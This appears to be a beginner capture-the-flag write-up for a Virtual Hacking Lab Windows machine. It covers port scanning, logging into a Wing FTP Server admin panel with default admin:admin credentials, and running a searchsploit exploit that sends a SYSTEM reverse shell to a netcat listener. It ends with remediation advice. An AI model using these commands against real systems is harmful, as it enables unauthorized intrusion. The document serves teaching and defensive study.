






# Steven - Virtual Hacking Lab

| Info | Details |
|-----|--------|
| Platform | Virtual Hacking Lab |
| Difficulty | Beginner |
| Target IP | 10.11.1.36 |
| OS | Windows |
| Vulnerability | Wing FTP Server RCE |
| Tools Used | Nmap, Gobuster, Searchsploit, Netcat |

## Attack Path

1. Network enumeration
2. Service enumeration
3. Admin panel discovery
4. Default credential login
5. Wing FTP Server exploit
6. Reverse shell
7. Capture flags

## Environment Setup
First, create a working directory and files to organize enumeration results.

```bash
mkdir steven
cd steven
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

## Network Scanning
Identify the target IP and perform a full port scan.

```bash
ip='10.11.1.36'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder
When reviewing scan results:
    1. Check all detected service versions
    2.Investigate every open port


## FTP
Attempt to access the FTP services.

```bash
# Try anonymous login
ftp $ip
anonymous::anonymous
"Login failed"
```



No anonymous login allowed

### FTP version Checked
Lets check version, Wing FTP Server


However, the exact version is not revealed during initial enumeration.

More investigation will be required later.

## smb

Since the scan shows SMB ports open, enumerate SMB shares.

```bash
smbclient -L //$ip
```


Result: **No accessible shares were discovered.**

```bash
# lets use enum4linux to find any useful information
enum4linux -a $ip
"No useful information here"
```

## HTTP Port Open



from nmap scan, i could see it is related to Wing FTP Server


Initial inspection of the web page suggests it is associated with Wing FTP Server.

Directory enumeration was performed using the following tools.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```





Results showed very limited directories and did not reveal significant information.

A deeper investigation of other ports was required.

## http 5466

Accessing the service reveals an admin login page.


```bash
# lets try week password login attempt
anonymous::anonymous
"Failed"

admin::admin
"Success"
```

Successful login grants access to the Wing FTP Server admin interface.



Lets see what kind of information, i can gain from here


Inside the admin panel, the version of the software is identified as:

`Wing FTP Server 4.3.8`

## Searching for exploit

Search for known vulnerabilities.

```bash
searchsploit wing ftp server 4.3.8
```



An exploit was discovered.

Download the exploit:

```bash
searchsploit -m 50720
```

## Exploitation

Run the exploit to obtain a reverse shell.

```bash
# lets try running the exploits
python3 50720.py 10.11.1.36 5466 172.16.1.2 4444 admin admin
```

Start a listener on the attacking machine:

```bash
#open a listener
sudo nc -lnvp 4444
```


Verify current privileges.

```bash
whoami
```


## Key.txt

The shell already has SYSTEM-level access, so no further privilege escalation is required.

Retrieve the final flag.

# Remediation

The compromise of this system was possible due to weak authentication and an outdated vulnerable service.

### 1. Remove Default Credentials
Default credentials such as `admin:admin` should never be used in production environments.  
Administrators should enforce strong password policies and disable default accounts when possible.

### 2. Update Wing FTP Server
The system was running **Wing FTP Server 4.3.8**, which is vulnerable to known exploits.  
Updating to the latest patched version would prevent exploitation.

### 3. Restrict Admin Panel Access
The administrative interface running on port **5466** should not be publicly accessible.  
Access should be restricted through:

- Firewall rules
- VPN access
- IP whitelisting

### 4. Implement Network Segmentation
Administrative services should be isolated from external networks to reduce attack surface.

### 5. Enable Logging and Monitoring
Enable proper logging and monitoring to detect suspicious login attempts and exploitation attempts.
